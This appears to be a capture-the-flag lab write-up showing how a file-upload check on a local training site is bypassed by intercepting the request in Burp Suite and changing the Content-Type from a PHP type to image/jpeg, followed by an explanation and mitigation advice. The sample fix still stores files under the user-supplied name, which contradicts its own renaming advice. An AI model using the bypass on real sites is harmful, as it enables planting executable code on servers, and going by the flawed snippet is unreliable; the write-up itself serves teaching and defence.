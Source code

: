 # File Upload

On the page `http://192.168.56.2/?page=upload` we can upload a file. We can easily upload an jpeg image, but not another type of file. Using BurpSuite, let's try to bypass the type file restriction and upload a php file.

In burpSuite, in the proxy tab, set the intercept on. On the upload page, upload your php file and click on upload. You should see the request in BurpSuite.
```
POST /?page=upload HTTP/1.1
Host: 192.168.56.107
Content-Length: 448
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.56.107
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryh2tDr2S3Rp1yJgM3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.56.107/?page=upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: close

------WebKitFormBoundaryh2tDr2S3Rp1yJgM3
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryh2tDr2S3Rp1yJgM3
Content-Disposition: form-data; name="uploaded"; filename="test.php"
Content-Type: application/x-php
```

Change the content-type `application/x-php`  by `image/jpeg`. Forward the request (still in Burp) and you'll get the flag.


 **FLAG: 46910D9CE35B385885A9F7E2B336249D622F29B267A1771FBACF52133BEDDBA8**

## DESCRIPTION

The vulnerability you've described is a **File Upload Vulnerability**. Specifically, this instance involves **Content-Type Bypass**. This type of vulnerability occurs when the web application does not properly validate the file type being uploaded, allowing an attacker to upload malicious files by manipulating the `Content-Type` header.

### Explanation of the Vulnerability

1.  **File Upload Endpoint**: The application has an endpoint where users can upload files, presumably images.
2.  **Content-Type Manipulation**: The attacker uploads a file with a PHP payload but sets the `Content-Type` header to `image/jpeg`.
3.  **Improper Validation**: The server only checks the `Content-Type` header and accepts the file without performing a thorough validation to ensure it is actually a JPEG image.

### Potential Security Implications

1.  **Remote Code Execution (RCE)**: If the uploaded PHP file is executed by the server, the attacker can execute arbitrary code, leading to full server compromise.
2.  **Unauthorized Access**: The attacker can upload files that could help in further attacks, such as web shells or scripts that steal sensitive information.
3.  **Data Breach**: Malicious files could be used to access or modify sensitive data on the server.

## PATCH

### Preventive Measures

1.  **Content-Type Validation**: Do not rely solely on the `Content-Type` header for file validation, as it can be easily spoofed.
2.  **File Content Inspection**: Inspect the actual content of the file to verify it matches the expected format. This can be done using libraries or tools specific to the file type (e.g., GD or Imagick for images).
3.  **File Extension Check**: Ensure that the file extension matches the expected type (e.g., `.jpg` for JPEG images). However, this should not be the sole check, as it can also be bypassed.
4.  **Store Files Outside Web Root**: Store uploaded files outside the web root directory to prevent direct access and execution via the web server.
5.  **Renaming Files**: Rename uploaded files to a safe and predictable format, avoiding the use of user-supplied filenames.
6.  **Permission Settings**: Set appropriate permissions on uploaded files and directories to minimize the risk of code execution.
7.  **Use a Whitelist**: Use a whitelist of allowed file types and reject any file that does not match the allowed types.

### Example of File Content Inspection

Here’s a basic example in PHP that checks if the uploaded file is a valid JPEG image using the GD library:

```php
if (isset($_FILES['upload'])) {
    $file = $_FILES['upload']['tmp_name'];
    $fileInfo = getimagesize($file);

    if ($fileInfo && $fileInfo[2] === IMAGETYPE_JPEG) {
        // File is a valid JPEG image, proceed with upload
        move_uploaded_file($file, 'uploads/' . $_FILES['upload']['name']);
    } else {
        // Invalid file type
        echo "Invalid file type. Please upload a JPEG image.";
    }
}
```

## DOC

- [Burp Suite](https://portswigger.net/burp/documentation/desktop/getting-started)
- [File Upload Vulnerability](https://owasp.org/www-chapter-pune/meetups/2023/Jan/File-upload-Vulnerability-Praveen-Sutar.pptx.pdf)